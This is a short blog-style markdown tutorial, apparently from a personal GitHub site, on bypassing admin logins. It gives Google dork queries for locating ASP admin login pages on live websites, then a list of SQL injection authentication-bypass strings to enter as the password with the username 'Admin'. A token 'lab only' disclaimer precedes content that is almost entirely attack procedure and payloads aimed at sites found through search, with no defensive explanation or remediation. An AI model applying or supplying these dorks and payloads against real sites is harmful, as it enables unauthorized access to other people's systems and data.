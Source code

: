 ```yaml
---
layout: default
title: "|--AuthGhost"
date: 2025-07-04
tags: [web-application, sql-injection, google-dorks]
---
```


> ⚠️ **FOR EDUCATION. FOR CHAOS. FOR THE LAB ONLY.**  
> You break real stuff = you face real bars. Use your brain.

##  What’s This?

> *Bypassing admin logins like a shadow.  
> This is that dirty trick in the back of the book no one talks about.*


## Step 1: Finding the Gate

Google is your dark mirror.

Use DORKS — your search spells:
```bash
"inurl:admin.asp"
"inurl:login/admin.asp"
"inurl:admin/login.asp"
"inurl:adminlogin.asp"
"inurl:adminhome.asp"
"inurl:admin_login.asp"
"inurl:administratorlogin.asp"
"inurl:login/administrator.asp"
"inurl:administrator_login.asp"
```

> You’re not browsing — you're **digging**.

## Step 2: Knock, But Loudly

Once you find the login page, you’ll see:
```bash
Username: ____________
Password: ____________
```
Don’t knock. **Kick the door**.

### You type:

- **Username**: `Admin`  
- **Password**: any of these mind-bending strings:
```bash
" or "x"="x
```
```bash
') or ('x'='x
```
```bash
' or 1=1--
```
```bash
" or 1=1--
```
```bash
or 1=1--
```
```bash
' or a=a--
```
```bash
" or "a"="a
```
```bash
') or ('a'='a
```
```bash
") or ("a"="a
```
```bash
hi" or "a"="a
```
```bash
hi" or 1=1 --
```
```bash
hi' or 1=1 --
```
```bash
'or'1=1'
```
## So your input should look like this
```bash
username:Admin
password:'or'1'='1
```
## that will confuse the site and give you authorisation to enter as admin
## If the site is vulnerable than you are in Big Grin



